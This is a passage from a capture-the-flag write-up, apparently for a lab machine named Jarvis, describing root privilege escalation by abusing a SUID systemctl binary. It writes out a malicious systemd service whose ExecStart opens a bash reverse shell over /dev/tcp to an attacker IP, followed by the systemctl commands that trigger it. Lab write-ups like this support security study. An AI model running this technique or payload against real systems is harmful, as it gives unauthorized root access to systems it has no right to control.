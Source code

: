 ### Privilege Escalation

Running LinPEAS we see that `/bin/systemctl` has the SUID bit set.

![jarvis_lp.png](../assets/jarvis_assets/jarvis_lp.png)

I almost always turn to gtfobins.com for sudo and SUID abuse, but for systemctl specifically I've had the best luck with this PoC: https://gist.github.com/A1vinSmith/78786df7899a840ec43c5ddecb6a4740

First we'll generate our root.service using vi on the target:

```
pepper@jarvis:/dev/shm$ cat root.service
[Unit]
Description=roooooooooot

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.216/9999 0>&1'

[Install]
WantedBy=multi-user.target
```

Then we can set up a nc listener on our attacking machine.

Back on the target we can run:

```
/bin/systemctl enable /dev/shm/root.service
```

Followed by:

```
/bin/systemctl start root
```

Where we then catch a shell back as root and can grab the final flag:
